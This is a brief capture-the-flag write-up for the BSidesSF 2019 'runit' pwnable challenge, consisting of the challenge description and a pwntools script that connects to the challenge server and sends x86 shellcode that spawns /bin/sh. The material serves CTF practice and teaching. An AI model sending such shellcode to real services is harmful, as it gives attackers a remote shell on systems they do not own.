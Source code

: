 # **runit**

#### tag : pwnable, writeup, BSidesSF-2019-CTF

-----------------------------------------------

#### Description

>Send code to the server, and it'll run! Grab the flag from /home/ctf/flag.txt Location - runit-5094b2cb.challenges.bsidessf.net:5252

-----------------------------------------------

#### Solution

```python
from pwn import *

r = remote('runit-5094b2cb.challenges.bsidessf.net', 5252)

sh = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

r.recvuntil('\n')
r.sendline(sh)
r.interactive()
```
